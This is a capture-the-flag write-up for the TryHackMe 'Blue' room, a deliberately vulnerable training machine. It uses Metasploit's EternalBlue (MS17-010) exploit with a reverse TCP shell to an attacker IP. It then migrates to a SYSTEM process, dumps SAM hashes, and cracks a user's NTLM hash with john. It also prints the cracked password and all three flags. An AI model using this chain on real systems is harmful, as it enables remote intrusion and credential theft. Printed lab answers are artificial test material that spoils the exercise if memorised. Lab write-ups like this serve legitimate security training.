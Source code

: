 # Blue

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Blue](https://tryhackme.com/room/blue)
>
> *Deploy & hack into a Windows machine, leveraging common misconfigurations issues.*
>
> ![](.gitbook/assets/blue.jpg)

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Exploitation

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

## Privilege Escalation

- Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

- My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g. ` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

## Post Exploitation

### Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for ***no password***.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

- In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```

<details>
<summary>Reveal Flag1: 🚩</summary>



`flag{access_the_machine}`

![](.gitbook/assets/image-20230316143237356.png)

</details>



```bash
cd C:/Windows/System32/config
cat flag2.txt
```

<details>
<summary>Reveal Flag2: 🚩</summary>



`flag{sam_database_elevated_access}`

![](.gitbook/assets/image-20230316143502259.png)

</details>



```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```

<details>
<summary>Reveal Flag3: 🚩</summary>



`flag{admin_documents_can_be_valuable}`

![](.gitbook/assets/image-20230316143807868.png)

</details>

------

